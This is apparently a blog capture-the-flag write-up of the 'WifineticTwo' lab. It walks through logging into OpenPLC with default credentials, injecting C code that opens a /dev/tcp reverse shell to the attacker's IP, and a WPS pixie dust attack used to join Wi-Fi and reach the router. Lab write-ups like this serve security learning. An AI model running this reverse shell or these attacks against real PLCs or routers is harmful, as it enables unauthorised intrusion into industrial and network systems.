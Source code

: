 ```yaml
---
layout: post
title: "WifineticTwo 728a1a1fb96942678c00d6407a5a0611"
date: 2025-09-27
categories: writeups
---
```


# WifineticTwo

# 1. Enumeration

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled.png' | relative_url }})

There is a http service, take a look of the web application

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_1.png' | relative_url }})

OpenPLC used openplc as default credentials, we use it and it worked.

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_2.png' | relative_url }})

# 2. User flag

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_3.png' | relative_url }})

Inside there is a section with C code that it may run on the server so we try to inject a rev shell

```c
#include "ladder.h"
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

//-----------------------------------------------------------------------------
// DISCLAIMER: EDDITING THIS FILE CAN BREAK YOUR OPENPLC RUNTIME! IF YOU DON'T
// KNOW WHAT YOU'RE DOING, JUST DON'T DO IT. EDIT AT YOUR OWN RISK.
//
// PS: You can always restore original functionality if you broke something
// in here by clicking on the "Restore Original Code" button above.
//-----------------------------------------------------------------------------

//-----------------------------------------------------------------------------
// These are the ignored I/O vectors. If you want to override how OpenPLC
// handles a particular input or output, you must put them in the ignored
// vectors. For example, if you want to override %IX0.5, %IX0.6 and %IW3
// your vectors must be:
//     int ignored_bool_inputs[] = {5, 6}; //%IX0.5 and %IX0.6 ignored
//     int ignored_int_inputs[] = {3}; //%IW3 ignored
//
// Every I/O on the ignored vectors will be skipped by OpenPLC hardware layer
//-----------------------------------------------------------------------------
int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

//-----------------------------------------------------------------------------
// This function is called by the main OpenPLC routine when it is initializing.
// Hardware initialization procedures for your custom layer should be here.
//-----------------------------------------------------------------------------
void initCustomLayer()
{
}

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal input
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomIn()
{
    // Example Code - Overwritting %IW3 with a fixed value
    // If you want to have %IW3 constantly reading a fixed value (for example, 53)
    // you must add %IW3 to the ignored vectors above, and then just insert this 
    // single line of code in this function:
    //     if (int_input[3] != NULL) *int_input[3] = 53;
}

#define LHOST "10.10.14.246"
#define LPORT "1234"

//-----------------------------------------------------------------------------
// This function is called by OpenPLC in a loop. Here the internal output
// buffers must be updated with the values you want. Make sure to use the mutex 
// bufferLock to protect access to the buffers on a threaded environment.
//-----------------------------------------------------------------------------
void updateCustomOut()
{
    int pipefd[2];
    pid_t pid;

    if (pipe(pipefd) == -1) {
        exit(EXIT_FAILURE);
    }

    pid = fork();
    if (pid == -1) {
        exit(EXIT_FAILURE);
    }

    if (pid == 0) {
        close(pipefd[0]);
        dup2(pipefd[1], STDOUT_FILENO);
        execl("/bin/bash", "/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/" LHOST "/" LPORT " 0>&1 &", NULL);
        exit(EXIT_FAILURE);
    } else {
        close(pipefd[1]);
        wait(NULL);
    }
```

Save and compile

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_4.png' | relative_url }})

It is necessary to run start PLC to execute the reverse shell. 

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_5.png' | relative_url }})

# 3.Priv esc

To get the root flag on this machine we need to use wlan0 interface to hack a wifi network 

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_6.png' | relative_url }})

We can enumerate and try to make a pixie dust attack using oneshot, this attack steal a pin on the router which will help later to access to the password saved on the router.

```jsx
sudo airmon-ng check kill
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_7.png' | relative_url }})

Once we found the password it’s time to connect to the wifi network

We will need two files and a set of command according with the documentation.

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_8.png' | relative_url }})

First path: /etc/wpa_supplicant/wpa_supplicant-wlan0.conf

```c
ctrl_interface=/var/run/wpa_supplicant
ctrl_interface_group=0
update_config=1

network={
  ssid="<NETWORK_SSID>"
  psk="<NETWORK_PASSWORD>"
  key_mgmt=WPA-PSK
  proto=WPA2
  pairwise=CCMP TKIP
  group=CCMP TKIP
  scan_ssid=1
}
```

Second path: /etc/systemd/network/25-wlan.network

```c
[Match]
Name=wlan0

[Network]
DHCP=ipv4
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_9.png' | relative_url }})

```coq
#Enable wpa supplicant to connect it trought it
systemctl enable wpa_supplicant@wlan0.service
#Restart the services to connect automatically
systemctl restart systemd-networkd.service
systemctl restart wpa_supplicant@wlan0.service
```

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_10.png' | relative_url }})

Use ssh to get into the router and machine pwned!!!

![Untitled]({{ '/assets/images/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08/734f48dc-c3e1-4199-b090-803803bdf8b8-export-fd465bcc-2039-4e91-b2af-966f3199ca08_Untitled_11.png' | relative_url }})